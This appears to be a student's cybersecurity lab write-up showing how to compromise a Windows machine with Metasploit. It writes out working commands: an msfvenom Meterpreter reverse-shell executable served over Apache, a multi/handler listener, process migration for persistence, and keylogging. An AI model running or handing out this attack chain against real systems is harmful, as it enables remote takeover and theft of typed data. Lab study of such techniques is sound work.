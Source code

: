 EXP.NO:06
DATE:26-03-2024

# Compromising windows using Metasploit

# AIM:
To Compromise windows using Metasploit .

# ALGORITHM:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## Commands:
```
ipconfig
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
cp fun.exe /var/www/html
sudo systemctl apache2 start
msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
ps


```

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/241e38d4-48ea-4e84-844c-203800b748ab)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9a5df072-ea93-4d78-b19d-0b538abd2afe)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fa436c58-1533-42ad-953e-05aab7679b33)

Start apache server sudo systemctl apache2 start
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/79b3ed4f-2e95-4c10-9308-3c931e3f9b07)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fcc713e4-2884-489f-9682-8b418e6071df)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/afb1606a-460c-4142-840f-2c5eca6de9df)

ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/5485dcda-63dc-46fc-9e17-982b7fb666c1)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/e65719b5-a0a3-4791-8179-01f60ef680d4)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9e462cee-0922-46b0-bbdc-5eec4b3493fb)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/465816f7-7f2d-4cd1-9ec1-a37730d2ac72)

On kali give the command exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9c28793a-9789-45b3-93b9-73328162f9a3)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/3ebff0be-9705-4b37-8d25-ee198512f4c2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/d4a87497-8634-494d-a4e8-f8d892cc7080)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/679e1a38-ac9a-4827-bceb-11eca119d56a)
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/f30636e6-c1b1-4f9f-ab43-ff1c400bafa5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/847f50fc-ae46-4a16-babf-63782184e0b4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

